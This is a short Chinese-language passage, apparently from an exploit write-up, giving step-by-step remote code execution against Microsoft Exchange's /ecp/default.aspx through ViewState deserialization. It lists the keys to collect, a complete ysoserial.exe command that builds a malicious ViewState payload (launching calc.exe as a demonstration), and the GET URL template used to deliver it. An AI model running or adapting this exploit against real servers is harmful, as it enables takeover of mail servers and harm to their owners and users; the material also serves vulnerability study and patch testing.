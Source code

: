 `__VIEWSTATEGENERATOR`在`/ecp/default.aspx`的前端页面里面直接获取：

![image](img/807c868a7dd9f42a3a94135126339ebe.png)

当拥有了`validationkey`,`validationalg`,`viewstateuserkey`,`__VIEWSTATEGENERATOR`，使用 YSoSerial.net 生成序列化后的恶意的 ViewState 数据：

```
ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "calc.exe" --validationalg="SHA1" --validationkey="CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF" --generator="B97B4E27" --viewstateuserkey="2fdc8b0d-dcfb-4d0a-b464-95b9a2dcc968" --isdebug –-islegacy 
```

![image](img/f727a184d021e5e85576a7502d12be42.png)

构造以下 URL，使用生成的 payload 替换<viewstate>，使用上面所说的 value 值替换<generator>，最后用 GET 请求发送给服务器即可。</generator></viewstate>

```
http://www.0-sec.org/ecp/default.aspx?__VIEWSTATEGENERATOR=<generator>&__VIEWSTATE=<ViewState> 
```

![image](img/0a791fe96565a8bcce8a41df0bf14990.png)
